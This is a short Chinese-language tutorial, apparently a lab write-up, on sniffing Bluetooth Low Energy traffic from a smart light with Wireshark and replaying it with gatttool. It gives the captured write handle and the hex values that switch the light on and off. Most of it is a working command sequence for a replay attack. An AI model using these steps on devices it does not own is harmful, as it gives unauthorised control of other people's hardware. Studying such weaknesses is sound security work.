





# 嗅探:
用wireshark进行BLE流量嗅探，过滤btatt，GATT协议的数据
sent write request请求，句柄为0x0012，写入了相应的value值
经过一系列抓包发现，0e000000000000000000000418020181为开灯操作
0e000000000000000000000418020180为关灯操作



# 重放攻击:
这里利用Parani-UD100硬件，使其连接到Linux系统
查看蓝牙设备信息
```c
hciconfig
```



扫描周围的低功耗蓝牙（BLE）设备
```c
sudo hcitool lescan
```


进行交互
```c
gatttool -b F0:45:DA:F4:13:E4 -I
#-b 要接蓝牙设备的mac地址
#-I 以交互模式运行
connect
#连接
```



列出所有特征
```c
characteristics
```



向指定特征句柄写入数据
```c
# 开灯操作
char-write-req 0x0012 0e000000000000000000000418020181
# 关灯操作
char-write-req 0x0012 0e000000000000000000000418020180
```


